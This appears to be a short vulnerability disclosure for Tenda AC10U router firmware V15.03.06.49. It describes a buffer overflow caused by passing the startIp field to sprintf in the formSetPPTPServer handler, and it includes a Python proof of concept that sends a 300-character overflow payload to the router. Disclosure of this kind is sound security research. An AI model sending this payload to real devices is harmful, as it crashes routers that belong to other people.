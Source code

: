 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](20.png)

get value from startIp ,then call sprintf, cause buff overflow

![](22.png)


## POC
```
url = "http://192.168.1.13/goform/formSetPPTPServer"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
